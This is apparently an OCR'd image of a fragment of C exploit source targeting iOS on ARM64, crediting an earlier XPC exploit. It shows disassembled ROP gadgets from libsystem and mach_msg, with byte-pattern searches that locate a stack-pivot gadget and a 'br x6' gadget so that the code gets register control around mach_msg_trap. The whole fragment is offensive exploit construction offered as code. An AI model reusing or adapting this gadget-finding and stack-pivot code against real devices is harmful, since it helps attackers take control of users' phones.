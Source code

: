 ```c
    0x1f6e7c5a0 <+8>:  ldr    x16, [x16, #0x38] // gadget starts here
    0x1f6e7c5a4 <+12>: ldp    x19, x20, [x0]
    0x1f6e7c5a8 <+16>: ldp    x21, x22, [x0, #0x10]
    0x1f6e7c5ac <+20>: ldp    x23, x24, [x0, #0x20]
    0x1f6e7c5b0 <+24>: ldp    x25, x26, [x0, #0x30]
    0x1f6e7c5b4 <+28>: ldp    x27, x28, [x0, #0x40]
    0x1f6e7c5b8 <+32>: ldp    x10, x11, [x0, #0x50]
    0x1f6e7c5bc <+36>: ldr    x12, [x0, #0x60]
    0x1f6e7c5c0 <+40>: ldp    d8, d9, [x0, #0x70]
    0x1f6e7c5c4 <+44>: ldp    d10, d11, [x0, #0x80]
    0x1f6e7c5c8 <+48>: ldp    d12, d13, [x0, #0x90]
    0x1f6e7c5cc <+52>: ldp    d14, d15, [x0, #0xa0]
    0x1f6e7c5d0 <+56>: eor    x29, x10, x16
    0x1f6e7c5d4 <+60>: eor    x30, x11, x16
    0x1f6e7c5d8 <+64>: eor    x12, x12, x16
    0x1f6e7c5dc <+68>: mov    sp, x12
    0x1f6e7c5e0 <+72>: cmp    w1, #0x0                  ; =0x0
    0x1f6e7c5e4 <+76>: csinc  w0, w1, wzr, ne
    0x1f6e7c5e8 <+80>: ret
#endif
    stack_pivot = mem_search(libsystem, "\x10\x1e\x40\xf9\x13\x50\x40\xa9\x15\x58\x41\xa9\x17\x60\x42\xa9\x19\x68\x43\xa9\x1b\x70\x44\xa9", 24);

#if 0
    0x1f643be80: 0xa9437bfd   ldp    x29, x30, [sp, #0x30]
    0x1f643be84: 0xa9424ff4   ldp    x20, x19, [sp, #0x20]
    0x1f643be88: 0xa94157f6   ldp    x22, x21, [sp, #0x10]
    0x1f643be8c: 0xa8c45ff8   ldp    x24, x23, [sp], #0x40
    0x1f643be90: 0xd61f00c0   br     x6
#endif
    br_x6 = mem_search(libsystem, "\xfd\x7b\x43\xa9\xf4\x4f\x42\xa9\xf6\x57\x41\xa9\xf8\x5f\xc4\xa8\xc0\x00\x1f\xd6", 20);

/*
 * credit goes to @i41nbeer, idea taken from his XPC exploit
 * I'm not calling mach_msg(), just having more control over registers
 * X0 becomes uncontrolled because of mach_msg_trap() return value
 * So one more gadget needed (see br_x6 above)
 */
#if 0
    libsystem_kernel.dylib`mach_msg:
    ...
    0x1f6e013bc <+92>:  mov    x1, x26
    0x1f6e013c0 <+96>:  mov    x2, x25
    0x1f6e013c4 <+100>: mov    x3, x22
    0x1f6e013c8 <+104>: mov    x4, x21
    0x1f6e013cc <+108>: mov    x5, x20
    0x1f6e013d0 <+112>: mov    x6, x19
    0x1f6e013d4 <+116>: mov    x0, x23
    0x1f6e013d8 <+120>: bl     0x1f6e01ec8               ; mach_msg_trap
    0x1f6e013dc <+124>: cmp    w0, w27
    0x1f6e013e0 <+128>: b.eq   0x1f6e013bc               ; <+92>
    0x1f6e013e4 <+132>: tbnz   w24, #0xa, 0x1f6e01428    ; <+200>
    ...
    0x1f6e01428 <+200>: ldp    x29, x30, [sp, #0x50]
    0x1f6e0142c <+204>: ldp    x20, x19, [sp, #0x40]
    0x1f6e01430 <+208>: ldp    x22, x21, [sp, #0x30]
    0x1f6e01434 <+212>: ldp    x24, x23, [sp, #0x20]
    0x1f6e01438 <+216>: ldp    x26, x25, [sp, #0x10]
    0x1f6e0143c <+220>: ldp    x28, x27, [sp], #0x60
    0x1f6e01440 <+224>: ret

#endif
```